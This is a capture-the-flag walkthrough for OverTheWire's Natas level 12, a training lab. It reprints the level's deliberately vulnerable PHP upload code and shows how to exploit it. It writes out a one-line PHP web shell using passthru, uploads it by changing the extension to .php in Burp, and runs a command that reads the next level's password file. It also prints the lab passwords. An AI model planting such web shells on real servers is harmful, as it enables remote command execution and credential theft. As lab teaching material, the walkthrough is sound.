



__Natas :: Level 12__
================


_Patrick Ledzian_ | _Sunday, January 17th, 2016_ 


> There is no information for this level, intentionally.


----------

Start by using a web browser to navigate to the website `http://natas12.natas.labs.overthewire.org/`

```
Login: natas12

Password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

```

Open the web page and you will see a file upload.

This problem has to do with [Unrestricted File Upload]

Open the html source and you will see how the web server handles an uploaded file.

```

<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?> 
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?> 

```

You can see that the `genRandomString()` function creates a random alphanumeric string of 10 characters

This is used with the `makeRandomPath($dir, $fn)` function to create a path with a random filename and extension .jpg

The .jpg extension is specified after the php code in html (outside of <? ?>), this will have to be edited in burp to produce .php files

If you don't recognize some of the syntax in the source code, look it up! Learning your way around PHP is important for web hacking

This following infographic from RaiderSec shows how information flows in this problem (allows us to figure out what to manipulate)



Now we need to make a php script to upload that will give us a shell on the web server

We can do this by creating a file that will pass our commands (passed in the url) to the web server, the output will be on the webpage

This can be done quick and dirty in php with the function passthu()

```

<?
passthru($_GET["cmd"])
?>

```

The $_GET[] command will take user inputs and pass them to the web server, "cmd" is a variable, it could be anything.

We then set up burp suite to listen on the webpage to change the file extension



Change the file extension from .jpg to .php and foward the request

The webpage will give you the path to your newly uploaded file, right click and copy the link



In a new tab paste the URL and append `?cmd=cat /etc/natas_webpass/natas13`

The ? indicates the start of the variables being passed by the [GET] command

Because the script we wrote passes commands to the web server we want to run shell commands on it

`http://natas12.natas.labs.overthewire.org/upload/93gae88kt3.php?cmd=cat%20/etc/natas_webpass/natas13`


The password for natas13 is jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY


[Unrestricted File Upload]: https://www.owasp.org/index.php/Unrestricted_File_Upload
[GET]: http://www.tutorialspoint.com/php/php_get_post.htm
